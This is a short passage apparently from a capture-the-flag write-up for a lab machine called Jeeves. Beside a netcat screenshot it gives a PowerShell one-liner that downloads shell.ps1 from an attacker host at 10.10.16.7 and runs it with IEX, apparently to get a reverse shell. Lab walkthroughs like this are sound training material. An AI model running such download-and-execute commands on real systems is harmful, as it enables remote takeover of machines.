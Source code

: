 ![Netcat](/assets/img/jeeves/nc.png)

On Jeeves I will execute below command to download the file and execute it using below powershell command

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7:80/shell.ps1')"
```